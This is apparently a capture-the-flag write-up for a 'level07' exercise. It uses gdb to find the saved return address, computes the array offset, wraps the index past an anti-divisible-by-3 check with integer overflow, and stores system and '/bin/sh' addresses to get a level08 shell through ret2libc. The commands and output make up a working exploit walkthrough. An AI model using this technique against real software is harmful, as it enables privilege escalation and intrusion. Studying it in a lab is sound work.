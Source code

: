 # level07

## Step 1: Understand the program
1. The program allows to store numbers in an array of unsigned int.
2. The array have no end
3. We can store numbers at any index expect if:
    - index is divisible by `3`
    - High byte of the number is `0xb7`
        ```c
        if ( index == 3 * (index / 3) || HIBYTE(unum) == 183 ) // ((unum) >> 8) & 0xFF) == 0xB7
        ```

## Goal
Since we can store any value at "any" position, the goal is to overwrite the `saved eip` of main function with a [__Ret2libc__ __attack__](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

## Step 2: find where is saved eip
```bash
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd6f0:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd6e8, args:
 Locals at 0xffffd6e8, Previous frame's sp is 0xffffd6f0
 Saved registers:
  ebp at 0xffffd6e8, eip at 0xffffd6ec
(gdb)
```

saved `eip` is at `0xffffd6ec`


## Step 3: Find the offset between the array and the saved eip

Store the random number `19951999` at `array[1]`

Find the value through the stack

```bash
(gdb) b *store_number+160
(gdb) r
(gdb) x/20d $esp
[...]
0xffffd4d0:	134515421	-10972	0	-136137024
0xffffd4e0:	-10520	-134280624	19951999	1
0xffffd4f0:	0	-8228	-10520	134514927
[...]
```
```bash
(gdb) x/d 0xffffd528
0xffffd528:	19951999
```
__The array is at `0xffffd524`__. We subtract 4 because it is at the `[1]` position, and it is an array of unsigned int (4 bytes long).

```bash
(gdb) p (0xffffd6ec - 0xffffd524)
$1 = 456
(gdb) p (0xffffd6ec - 0xffffd524) / 4
$2 = 114
(gdb)
```

__Offset == 114__  (114 step of 4 bytes)


## Step 4: Find the address of system functions
```bash
(gdb) p system
$3 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

__0xf7e6aed0 = 4159090384__

```bash
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
```
__0xf7f897ec = 4160264172__


https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue

## Exploit

Given that the index can't be divisible by 3. we can't require index 114. To store value at this position we overlap `unsigned int max`.


- $UINTMAX = 2^{32} - 1$  

- $\frac{2^{32}}{4} + 114 = 1073741938$




At last, quit to pass by through the return of `main`.

```console
$ /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

